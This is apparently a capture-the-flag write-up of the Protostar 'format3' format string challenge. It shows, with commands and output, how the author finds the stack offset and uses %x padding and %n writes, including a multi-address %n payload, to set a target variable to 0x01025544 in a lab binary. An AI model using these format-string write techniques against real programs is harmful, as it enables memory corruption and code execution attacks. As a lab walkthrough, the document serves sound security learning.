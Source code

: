 <h2>Goal</h2>
The goal here is a slight advancement from the previous chall. Same process, just different requirements for the value.  The goal is to overwrite target and make it equal to `0x01025544`.

```c
printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
```

<h2>Process</h2>

```bash
objdump -t format3 | grep target
080496f4 g     O .bss	00000004              target
```

Let's see where we can write to memory, let's just blindly try 100  addresses.
```bash
python -c 'print "AAAAAAAA"+"%x "*100' | ./format3
AAAAAAAA0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 41414141 41414141 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 bfff000a b7fffbe8 e b7ea36e4 b7fe1afc f63d4e2e 0 3 b7fff8f8 0 0 1 
target is 00000000 :(
```
Ok great looks like we have it fairly early in, counting the amount of addresses, we get 12.


Using 12 too confirm, it is correct.
```bash
python -c 'print "AAAAAAAA"+"%x "*12' | ./format3
AAAAAAAA0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 41414141
target is 00000000 :(
```

Next let's put in our memory address for `target` and replace a `%x` with a `%n`
```bash
python -c 'print "\xf4\x96\x04\x08"+"%x "*11+"%n"' | ./format3
��0 bffff5d0 b7fd7ff4 0 0 bffff7d8 804849d bffff5d0 200 b7fd8420 bffff614 
target is 0000004c :(
```


**Note: A slight warning this is how I figured it out the first time around, without having read any further on Format strings between this challenge and the previous. This was is pretty hackish and not reliable.  There are great write up's explaining two-byte and four-byte writing. I will also provide the final solution using the proper technique.**


Ok let's put in some padding like last time and start experimenting. 

```bash
python -c 'print "\xf4\x96\x04\x08"+"%100x "*11+"%n"' | ./format3
target is 0000045b :(
```

Not nearly large enough, lets add some more 0's.

```bash
python -c 'print "\xf4\x96\x04\x08"+"%1000000x "*11+"%n"' | ./format3
target is 00a7d8cf :(
```
Closer, but still off. Adding another zero pushed me way off and the program took a long time to execute. After changing the starting value from 1 to 2 I got close `%1000000x`.  Now `014fb18f` is greater than the required `01025544`, but its significantly closer. Trying `1500000` got me really close.

```bash
python -c 'print "\xf4\x96\x04\x08"+"%2000000x "*11+"%n"' | ./format3
target is 014fb18f :(
```


After experimenting I eventually got this:
```bash
user@protostar:/opt/protostar/bin$ python -c 'print "\xf4\x96\x04\x08"+"%1539100x"*11+"%n"' | ./format3

target is 01025538 :(
```
Adding a 1 to the end of `"%1539100x"` pushed me over the value, this means this wouldnt not work.  I would have to write out each of the `"%x"` and start over.  This is because we are multiplying the spacing everytime by 11, so an increment of 6, to get from 5538 to 5544 wouldn't be achievable.  After a similar process with `python -c 'print "\xf4\x96\x04\x08"+"%10000000x%x%x%x%x%x%x%x%x%x%x"+"%n"' | ./format3` I eventually got the correct value.  



<h2>Solution</h2>

This ended up working for me.
```bash
python -c 'print "\xf4\x96\x04\x08"+"%16930052x%x%x%x%x%x%x%x%x%x%x"+"%n"' | ./format3
0bffff5d0b7fd7ff400bffff7d8804849dbffff5d0200b7fd8420bffff614
you have modified the target :)
```

The proper way to do this is like so: 

```bash
python -c 'print "\xf4\x96\x04\x08"+"\xf5\x96\x04\x08"+"\xf6\x96\x04\x08"+ "%56x%12$n%17x%13$n%173x%14$n"' | ./format3
������                                                       0         bffff5d0                                                                                                                                                                     b7fd7ff4
you have modified the target :)

```


